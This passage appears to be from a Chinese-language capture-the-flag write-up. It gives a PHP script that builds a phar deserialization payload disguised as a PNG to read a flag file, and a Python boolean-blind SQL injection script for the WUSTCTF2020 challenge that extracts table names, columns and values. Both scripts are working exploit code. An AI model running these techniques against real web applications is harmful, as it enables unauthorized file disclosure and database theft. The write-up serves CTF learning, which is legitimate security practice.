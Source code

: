 构造
```php
<?php
    class C1e4r{
        public $test;
        public $str;
    }
    class Show{
    	public $source;
    	public $str;
    }
    class Test{
 	    public $file;
 	    public $params=array("source"=>"var/www/html/f1ag.php");
    }


    $a=new C1e4r;
    $a->str=new Show;
    $a->str->str["str"]=new Test;

    $b=new Phar("w.phar");
    $b->startBuffering();
    $b->setStub("<?php __HALT_COMPILER(); ?>");
    $b->setMetadata($a);
    $b->addFromString("a","a");
    $b->stopBuffering();

    copy("w.phar","a.png");
?>
```
直接访问`/upload`得到上传文件名
利用`phar`协议查看即可

# \<WUSTCTF2020>颜值成绩查询


常规布尔盲注，甚至没有什么过滤
```python
import requests

tar_url="..............."
par={"stunum":""}
an=""

for i in range(1,50):
    print(f"{i}>",end="")
    for w in range(33,127):
        #par["stunum"]=f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))={w})"
        #par["stunum"]=f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{i},1))={w})"
        #par["stunum"]=f"0^(ascii(substr((select(group_concat(value))from(flag)),{i},1))={w})"
        response=requests.get(url=tar_url,params=par,timeout=100)
        if "admin" in response.text:
            an+=chr(w)
            print(an)
            break
```
